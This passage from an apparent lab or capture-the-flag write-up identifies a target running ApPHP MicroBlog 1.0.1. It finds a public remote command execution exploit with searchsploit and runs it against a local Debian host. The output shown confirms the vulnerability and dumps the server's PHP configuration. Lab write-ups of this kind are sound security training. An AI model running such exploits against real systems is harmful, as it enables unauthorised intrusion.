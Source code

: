 Multiples informations here :

- `install.php` is mentioned but not found
- Web app system is ApPHP MicroBlog Free, version 1.0.1

### Exploitation

Quick `searchsploit` looks promising :

```
# searchsploit apphp 1.0.1
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities                                    | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Execution                                    | php/webapps/33070.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Let's examine RCE. It's a python script that take in as argument the site URL running ApPHP webapp.
It should send back a shell.

```
# searchsploit -x 33070
  Exploit: ApPHP MicroBlog 1.0.1 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/33070
     Path: /usr/share/exploitdb/exploits/php/webapps/33070.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

Run the exploit :

- It's a Python 2.X script only
- It's mandatory to provide `index.php`
```
# python2.7 /usr/share/exploitdb/exploits/php/webapps/33070.py http://debian.home/index.php

 -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
	PHP Version 5.6.40-0+deb8u12
	System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686
	Loaded Configuration File   /etc/php5/apache2/php.ini
	Apache Version   Apache/2.4.10 (Debian)
	User/Group   www-data(33)/33
	Server Root   /etc/apache2
	DOCUMENT_ROOT   /var/www/html
	PHP Version   5.6.40-0+deb8u12
	allow_url_fopen  On  On
	allow_url_include  Off  Off
	disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
	open_basedir   no value    no value
	System V Message based IPC   Wez Furlong
```